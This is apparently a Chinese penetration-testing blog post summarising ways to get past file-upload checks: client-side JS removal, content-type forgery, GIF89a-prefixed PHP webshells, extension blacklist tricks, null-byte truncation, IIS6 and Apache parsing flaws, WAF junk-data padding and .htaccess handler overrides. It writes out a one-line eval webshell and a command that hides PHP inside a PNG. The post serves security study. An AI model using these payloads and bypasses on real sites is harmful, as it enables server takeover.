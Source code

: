 ```yaml
---
title: 渗透测试《文件上传》姿势
date: 2019-07-12 09:34:24
toc: true
tags:
- 文件上传姿势总结
categories:
- 渗透测试
---
```


本篇要介绍的是常见的几种文件上传绕过姿势。



## 文件上传校验
1.前端javascript校验（一般只校验后缀名）

2.服务端校验

3.文件头content-type字段校验（image/gif）

4.文件内容头校验（GIF89a）

5.后缀名黑名单校验

6.后缀名白名单校验

7.WAF设备校验（根据不同的WAF产品而定）

8.其他绕过方式

### 客户端校验
​           判断方式：上传文件时还未点击上传按钮便弹出对话框，内容如：只允许上传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

绕过方式：

```
1、可以用firebug将form表单中的JS事件删除，这样就可以绕过验证。

2、利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。
```

### 文件头content-type字段校验

```
绕过方式：通过抓包，将content-type字段改为image/gif或者image/png等允许上传的文件类型
```

### 文件内容头校验

绕过方式：

在一句话木马前面再加一些图片文件信息，如

```php
GIF89a<?php @eval($_POST['caidao']);?>
```


 Windows捆绑

```shell
copy 1.png /b + 2.php /a 3.png
```


常见的文件头对应关系： 

```
（1）  .JPEG;.JPE;.JPG   ------------    ”JPGGraphic File”
（2）  .gif  --------------      ”GIF 89A”
（3）  .zip  -------------      ”Zip Compressed”
（4）  .doc;.xls;.xlt;.ppt;.apr   --------------      ”MS Compound Document v1 or Lotus Approach APRfile”
```

### 后缀名黑名单校验

找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类

可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类

在window下，若文件名以"."或者空格作为结尾，系统会自动去除"."与空格， 所以可以上传以“asp.”和“asp_”为扩展名的文件

[0x00截断绕过](https://blog.csdn.net/qq_26090065/article/details/81458937)

IIS6.0解析漏洞

```
在网站下建立文件夹的名字为*.asp、*.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。例如创建目录vidun.asp，那么/vidun.asp/f1jpg将被当作asp文件来执行。（Burp抓包后，在目录后面添加文件夹，如upload/1.asp,而文件名还是f1.jpg）
上传一个 名字叫 "vidun.asp;.jpg"的木马文件，该文件可以被当作asp文件解析并执行。
```


能被解析的文件扩展名列表：

```
jsp  jspx  jspf
asp  asa  cer  aspx
php  php  php3  php4
exe  exee
```

### 后缀名白名单校验

#### 0x00截断绕过
```
此时若在iis6.0，则可以将木马名改为test.asp;1.jpg来上传，从而通过验证
配合解析漏洞
```

### WAF设备校验

垃圾数据
可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容；

也可以将垃圾数据放在数据包最开头，这样便可以绕过对文件名的校验。

[上传过WAF总结-15种](https://www.bugbank.cn/api/tweet/5a6c2ee736dd30c2949b96cd/inner?token=d68d087a72c5b96c4aed0a4761b0f8b9)

### 其他绕过方式

.htaccess文件攻击

先上传一个.htaccess文件，通过它调用php解析器去解析一个文件名中只要包含"haha"这个字符串的任意文件，无论扩展名是什么(没有也行)，都会以php的方式来解析

.haccess文件代码如下：

```
<FilesMatch "haha">

SetHandler application/x-httpd-php

</FilesMatch>
```

或者如下，上传一个文件名为evil.gif的图片马：

```
<FilesMatch "evil.gif">

SetHandler application/x-httpd-php

</FilesMatch>
```

然后再上传haha.png即可

Apache解析漏洞

Apache不管文件最后的后缀名是什么 ,只要是.php.*为结尾,就会被apache服务器解析成PHP的文件
Apache的Mime.type配置文件定义了Apache能够解析哪些文件的类型。

当apache遇到xx.php.rar或者Xxx.php.111这些默认没有在mime.types文件定义的都会解析成php的文件。